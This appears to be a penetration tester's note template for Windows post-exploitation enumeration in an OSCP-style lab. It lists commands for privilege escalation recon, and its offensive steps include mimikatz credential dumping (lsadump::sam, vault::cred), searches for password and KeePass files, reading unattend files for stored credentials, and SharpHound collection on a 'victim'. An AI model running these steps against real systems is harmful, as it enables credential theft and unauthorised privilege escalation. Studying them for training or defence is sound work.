 <% tp.file.rename("2_loot_Windows")%>
Hostname `hostname`
	

## PrivEsc Relevant (winPEAS und adPEAS script?)

##### Users
```powershell
Get-LocalUser
```
(Alternative: `net user`)
```powershell
Get-LocalGroup
```
(Alternative: `net localgroup`)
(Of interest: Non-standard groups, _Administrators_, _Backup Operators_ (Universal file access), _Remote Desktop Users_ (RDP), and _Remote Management Users_ (WinRM))
```powershell
Get-LocalGroupMember administrators
```
Alternative: `net localgroup administrators`
```powershell
net user /domain
```
	

##### Privileges:
```powershell
whoami /all
```

```powershell
reg query "HKU\S-1-5-19"
```
(_SeImpersonatePrivilege_ or _SeAssignPrimaryToken_ -> Named Pipes [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) or Juicy/Rotten/Sweet Potato)
(Also of interest: _SeBackupPrivilege_, _SeLoadDriver_, and _SeDebug_)
	
Example for administrative, non-vulnerable account:
	```
	Group Name                                                    Type             SID          Attributes
	============================================================= ================ ============ ==================================================
	Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
	BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
	BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\REMOTE INTERACTIVE LOGON                         Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
	LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
	Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
	``` https://learn.microsoft.com/de-de/windows-server/identity/ad-ds/manage/understand-special-identities-groups
##### Working Dir for attack
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
	
##### Passwords (mimikatz)
```powershell
privilege::debug
```

```powershell
token::elevate
```

```powershell
lsadump::sam
```
(lsadump::lsa /patch ??)
```powershell
vault::cred /patch
```
	
##### SysInfo
```powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
(See: https://en.wikipedia.org/wiki/List_of_Microsoft_Windows_versions)
	
##### Interesting user files
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -Include *password* -Include proof.txt -Include local.txt -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

##### Running processes
```powershell
tasklist /SVC
```
	
(Alternative: `Get-Process`)
Standard processes:
	AggregatorHost
	CompatTelRunner
	conhost
	csrss
	ctfmon
	dllhost
	dwm
	fontdrvhost
	LogonUI
	lsass
	MicrosoftEdgeUpdate
	msdtc
	MsMpEng
	rdpclip
	RuntimeBroker
	SearchHost
	SearchIndexer
	SecurityHealthSystray/-Service
	services
	SgrmBroker
	ShellExperienceHost
	sihost
	smss
	StartMenuExperienceHost
	svchost
	taskhostw
	tasklist
	vm3dservice
	vmtoolsd
	wininit
	winlogon
	WmiApSrv
	WmiPrvSE
	WUDFHost
##### Installed programs
```powershell
wmic product get name"," version"," vendor
```
	
 (Alternative: `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname` (32-bit) and `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`. Also, check the _Program Files_ directories as this list might be incomplete)
##### Services
```powershell
wmic service get name","displayname","pathname","startmode |findstr /i "auto" |findstr /i /v "c:\windows\\"
```
Alternatives: `Get-Service` or
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,StartMode,PathName | Where-Object {$_.State -like 'Running'}
```
Check if non-default services have files with lax write-permissions (W or F):
```powershell
icacls $file
```
(Alternative: `Get-ACL`)
Also check if any of the pathnames are unquoted but contain spaces. e.g. with: `wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """`
	
##### Scheduled tasks
```powershell
schtasks /query /fo LIST /v
```
(Alternative: `Get-ScheduledTask`)
```powershell
schtasks /query /fo CSV /v | ConvertFrom-Csv | where { $_.Status -ne "Disabled" } | where { $_.Author -notlike "*Microsoft*" } | where { $_.Author -notlike "*N/A*" } | where { $_.Author -ne "Author" }
```

```powershell
schtasks /query /fo CSV /v | ConvertFrom-Csv | where { $_.Status -ne "Disabled" } | where { $_."Run As User" -like "SYSTEM" }
```
	
##### Systemwide patches
```powershell
wmic qfe get Caption"," Description"," HotFixID"," InstalledOn
```
	
##### History
```powershell
Get-History
```

```powershell
(Get-PSReadlineOption).HistorySavePath | cat -
```


## Loot for later
##### Home folder
```powershell
dir /B /S /A-D
```

```powershell
Get-ChildItem -Recurse -Path C:\Users\offsec | select Parent,Name
```
	
##### Network interfaces
```powershell
ipconfig /all
```
	
##### Firewall settings
```powershell
netsh advfirewall show currentprofile, netsh advfirewall firewall show rule name=all
```
	
##### Gateways
```powershell
route print
```
	
##### Listeners/Connections
```powershell
netstat -ano
```
	
##### Mounted Volumes
```powershell
mountvol
```
	
##### Drivers	
```powershell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", "Start Mode", "Path"
```
	
##### Devices
```powershell
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer
```
	
##### Softwareverteilung?
```powershell
cat c:\sysprep.inf
```

```powershell
cat c:\sysprep\sysprep.xml
```

```powershell
cat %WINDIR%\Panther\Unattend\Unattended.xml
```

```powershell
cat %WINDIR%\Panther\Unattended.xml
```
	
Shadow Copy?
```powershell
vssadmin list shadows
```

```powershell
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```
	


# Bloodhound
Kali:
```bash
sudo apt-get install neo4j bloodhound && sudo neo4j console && bloodhound
```

```bash
scp SharpHound.exe $user@$hip:"C:\\Users\\$user\\Downloads"
```

Victim:
```powershell
powershell -ep bypass
```

```powershell
cd Downloads
```

```powershell
.\SharpHound.exe --CollectionMethods All --zipfilename data.zip -d $dnsserver
```





# Findings